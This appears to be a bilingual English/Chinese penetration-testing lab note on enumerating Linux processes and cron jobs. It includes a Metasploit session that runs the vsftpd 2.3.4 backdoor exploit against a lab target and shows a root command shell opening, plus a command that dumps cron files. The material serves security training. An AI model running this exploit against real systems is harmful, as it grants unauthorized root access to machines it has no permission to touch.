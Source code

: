 This will display all cron files.

```
cat /etc/cron*
```

# Enumerating Processes & Cron Jobs
## Overview
Goal

This lab covers the process enumerating services and cron jobs running on a target system running Linux.

# 枚举进程和 Cron 作业
## 概述
目标

本实验涵盖在运行 Linux 的目标系统上运行的枚举服务和 cron 作业的过程。

## 复现视频内容
Kali Linux : 192.192.62.2

Target IP Address : 192.192.62.3

```
root@attackdefense:~# service postgresql start && msfconsole -q
[ ok ] Starting PostgreSQL 11 database server: main.
msf5 > setg RHOSTS 192.192.62.3
RHOSTS => 192.192.62.3
msf5 > search vsftpd

Matching Modules
================

   #  Name                                  Disclosure Date  Rank       Check  Description
   -  ----                                  ---------------  ----       -----  -----------
   1  exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  No     VSFTPD v2.3.4 Backdoor Command Execution


msf5 > use exploit/unix/ftp/vsftpd_234_backdoor
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > exploit

[*] 192.192.62.3:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 192.192.62.3:21 - USER: 331 Please specify the password.
[+] 192.192.62.3:21 - Backdoor service has been spawned, handling...
[+] 192.192.62.3:21 - UID: uid=0(root) gid=0(root) groups=0(root)
[*] Found shell.
[*] Command shell session 1 opened (192.192.62.2:33815 -> 192.192.62.3:6200) at 2023-06-15 02:03:02 +0000

^Z
Background session 1? [y/N]  y
```

